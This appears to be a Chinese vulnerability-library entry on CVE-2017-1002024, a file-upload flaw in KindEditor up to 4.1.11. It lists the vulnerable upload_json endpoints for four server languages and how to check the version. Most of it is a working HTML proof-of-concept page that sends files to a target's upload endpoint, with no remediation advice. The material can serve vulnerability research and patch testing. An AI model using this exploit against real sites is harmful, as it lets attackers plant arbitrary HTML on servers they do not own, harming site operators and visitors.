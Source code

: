 ```yaml
---
title: （CVE-2017-1002024）Kindeditor <=4.1.11 上传漏洞
id: zhfly3006
---
```


# （CVE-2017-1002024）Kindeditor <=4.1.11 上传漏洞

## 一、漏洞简介

漏洞存在于kindeditor编辑器里，你能上传.txt和.html文件，支持php/asp/jsp/asp.net,漏洞存在于小于等于kindeditor4.1.11编辑器中

## 二、漏洞影响

Kindeditor <=4.1.11

## 三、复现过程

> json文件地址

```
/asp/upload_json.asp

/asp.net/upload_json.ashx

/jsp/upload_json.jsp `/php/upload_json.php` 
```

> 上传路径

```
kindeditor/asp/upload_json.asp?dir=file

kindeditor/asp.net/upload_json.ashx?dir=file

kindeditor/jsp/upload_json.jsp?dir=file `kindeditor/php/upload_json.php?dir=file` 
```

> 查看版本信息

```
http://www.0-sec.org/kindeditor//kindeditor.js 
```

![image](../img/a1abf6e8b7fd7474d665d41ab0bf5515.png)

> 构造poc

```
<html><head>
<title>Uploader</title>
<script src="http://www.0-sec.org/kindeditor//kindeditor.js"></script>
<script>
KindEditor.ready(function(K) {
var uploadbutton = K.uploadbutton({
button : K(‘#uploadButton‘)[0],
fieldName : ‘imgFile‘,
url : ‘http://www.0-sec.org/kindeditor/jsp/upload_json.jsp?dir=file‘,
afterUpload : function(data) {
if (data.error === 0) {
var url = K.formatUrl(data.url, ‘absolute‘);
K(‘#url‘).val(url);}
},
});
uploadbutton.fileBox.change(function(e) {
uploadbutton.submit();
});
});
</script></head><body>
<div>
<input class="ke-input-text" type="text" id="url" value="" readonly="readonly" />
<input type="button" id="uploadButton" value="Upload" />
</div>
</body>
</html> 
```